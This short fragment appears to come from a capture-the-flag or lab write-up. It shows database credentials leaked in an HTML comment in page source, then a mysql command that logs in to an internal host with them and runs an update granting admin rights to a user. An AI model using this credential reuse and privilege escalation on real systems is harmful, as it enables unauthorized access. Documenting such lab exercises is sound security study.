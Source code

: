 ![](../../.gitbook/assets/image%20%2813%29.png)

```text
<!-- = '127.0.0.1'; = 'dbuser'; = 'xXxyYyzZz789789)))'; = 'footracking'; = mysqli_connect(, , , );-->
```

```text
mysql --host=172.16.64.92 --user=dbuser --password=xXxyYyzZz789789))) --port 63306 footracking
> update users set adm='yes' where id=3;
```
